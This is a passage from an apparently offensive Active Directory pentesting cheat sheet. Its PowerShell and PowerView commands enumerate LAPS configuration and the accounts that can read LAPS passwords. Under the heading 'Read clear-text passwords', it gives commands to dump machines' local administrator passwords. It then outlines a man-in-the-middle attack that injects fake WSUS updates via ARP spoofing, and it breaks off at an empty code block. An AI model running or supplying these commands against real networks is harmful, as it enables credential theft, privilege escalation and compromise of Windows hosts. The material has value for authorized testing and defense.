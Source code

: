 ````

#### Check all computers without LAPS
```
Get-DomainComputer | Where-object -property ms-Mcs-AdmPwdExpirationTime -like $null | select-object samaccountname
```

#### Check the LAPS configuration
- https://github.com/PowerShell/GPRegistryPolicy
- Password complexity, password length, password expiration, Acccount managing LAPS
- AdmPwdEnabled 1 = local administrator password is managed
- Passwordcomplexity 1 = large letters, 2 = large + small letters, 3 = Large + small + numbers, 4 = large + small + numbers + specials
```
Parse-PolFile "<GPCFILESYSPATH FROM GET-DOMAINGPO>\Machine\Registry.pol" | select ValueName, ValueData
```

#### Find all users who can read passwords in clear text machines in OU's
```
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_}

Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | Select-Object ObjectDN, IdentityName
```

```
Import-Module AdmPwd.PS.psd1
Find-AdmPwdExtendedRights -Identity OUDistinguishedName
```

#### If retured groups, get the users:
```
$LAPSAdmins = Get-DomainGroup <GROUP> | Get-DomainGroupMember -Recursive
$LAPSAdmins += Get-DomainGroup <GROUP> | Get-DomainGroupMember -Recursive
$LAPSAdmins | select Name, distinguishedName | sort name -Unique | fortmat-table -auto
```

#### Read clear-text passwords:
```
Get-ADObject -SamAccountName <MACHINE NAME$> | select -ExpandProperty ms-mcs-admpwd
Get-DomainComputer | Where-Object -Property ms-mcs-admpwd | Select-Object samaccountname, ms-mcs-admpwd

#LAPS Powershell cmdlet
Get-AdmPwdPassword -ComputerName <MACHINE NAME>
```

## Attacking WSUS
- When deployed without SSL encryption, its possible to perform man-in-the-middle attack and inject a fake update
- Requirements
  - WSUS without SSL encryption
  - Only deliver binaries signed by MS, such as psexec
  - Must perform arp spoofing or tamper with the system's proxy settings 
- https://github.com/ctxis/wsuspect-proxy
- https://www.blackhat.com/docs/us-15/materials/us-15-Stone-WSUSpect-Compromising-Windows-Enterprise-Via-Windows-Update.pdf

#### Identify usage of WSUS
```
````